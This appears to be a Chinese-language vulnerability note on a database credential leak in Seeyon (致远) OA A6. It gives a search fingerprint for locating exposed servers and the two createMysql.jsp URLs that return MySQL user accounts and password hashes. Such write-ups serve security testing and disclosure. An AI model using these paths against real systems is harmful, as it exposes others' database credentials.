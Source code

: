 # 致远OA A6 createMysql.jsp 数据库敏感信息泄露

# 致远OA A6 createMysql.jsp 数据库敏感信息泄露

## 漏洞描述

致远OA A6 存在数据库敏感信息泄露，攻击者可以通过访问特定的URL获取数据库账户以及密码 MD5

## 漏洞影响

```
致远OA A6
```

## 网络测绘

```
title="致远A8+协同管理软件.A6"
```

## 漏洞复现

当访问如下URL时执行了SQL语句 `select *from mysql.user;` 进行查询并返回到页面中

```
/yyoa/createMysql.jsp
/yyoa/ext/createMysql.jsp
```

![image-20220520152725777](/images/202205201527828.png)

![image-20220520152737237](/images/202205201527304.png)


